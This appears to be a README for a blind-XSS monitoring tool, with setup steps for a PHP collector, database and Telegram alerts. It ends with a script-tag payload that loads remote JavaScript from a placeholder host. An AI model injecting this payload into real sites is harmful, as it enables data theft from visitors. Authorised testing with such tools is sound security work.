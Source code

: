 # XSS Monitor tool for OOB Blind-XSS

## How to install :

  1.Upload alert.php , eksss.js on your host
  
  2.change "https://YourSiteName.com/alert.php" in eksss.js to your host and path of PHP file and save it.
  
  3.open alert.php and set your information of Database config 

  ```php
      $servername = "localhost";
      $username = "UserDB_xss";
      $password = "PAS-DB";
      $dbname = "DB-name_monitor"
  ```

  4.set Telegram Bot information and ChatID Acount which you want to be notified :

  ```php
      $token = "**********Bot_Token***************";
      $chat_id = "****YourTelegramChatID";
  ```
      
  5.save alert.php 

## How to Use:

  use this payload for test :

          <script src=https://YourSiteName.com/eksss.js></script>
  
